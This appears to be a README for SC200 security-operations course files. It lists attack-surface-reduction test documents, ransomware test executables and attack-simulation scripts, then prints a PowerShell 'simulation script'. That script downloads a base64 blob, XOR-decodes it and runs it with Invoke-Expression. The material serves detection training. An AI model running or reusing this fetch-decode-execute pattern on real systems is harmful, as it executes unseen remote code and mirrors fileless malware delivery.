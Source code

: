 # CourseFiles for SC200

## SC200-Files1

- RS4_WinATP-Intro-Invoice.docm
- BloodHound.ps1
- FilelessATK.ps1
- RS3_WinATP-Intro-Invoice.docm

## SC200-Files2

- SC200-Files2\ASR_CFA_CleanupScript.zip
- SC200-Files2\ASR_SetupScript.zip
- Block_Win32_imports_from_Macro_code_in_Office_92E97FA1-2EDF-4476-BDD6-9DD0B4DDDC7B.docm
- ransomware_cleanup_encrypt_decrypt.exe
- ransomware_testfile_doc.docm
- TestFile_Block_Office_applications_from_creating_executable_content_3B576869-A4EC-4529-8536-B80A7769E899.docm
- TestFile_Impede_JavaScript_and_VBScript_to_launch_executables_D3E037E1-3EB8-44C8-A917-57927947596D.js
- TestFile_OfficeChildProcess_D4F940AB-401B-4EFC-AADC-AD5F3C50688A.docm
- TestFile_PsexecAndWMICreateProcess_D1E49AAC-8F56-4280-B9BA-993A6D77406C.vbs
- UNSIGNED_ransomware_test_exe.exe

## Web-Links, Blogs und mehr
[hier](/WebLinks.md)

## Cross Product Simulation Script
Triggers multiple attacks.

```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;
$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');
$base64String =	(Invoke-WebRequest -URI	https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt -UseBasicParsing).Content;
Try{ 
    $contentBytes =	[System.Convert]::FromBase64String($base64String) 
} 
Catch { 
    $contentBytes =	[System.Convert]::FromBase64String($base64String.Substring(3)) 
};

$i = 0;	
$decryptedBytes = @();
$contentBytes.foreach{ 
    $decryptedBytes += $_ -bxor $xor[$i];
    $i++;
    if ($i -eq $xor.Length) {
        $i = 0
        }
    };
Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```
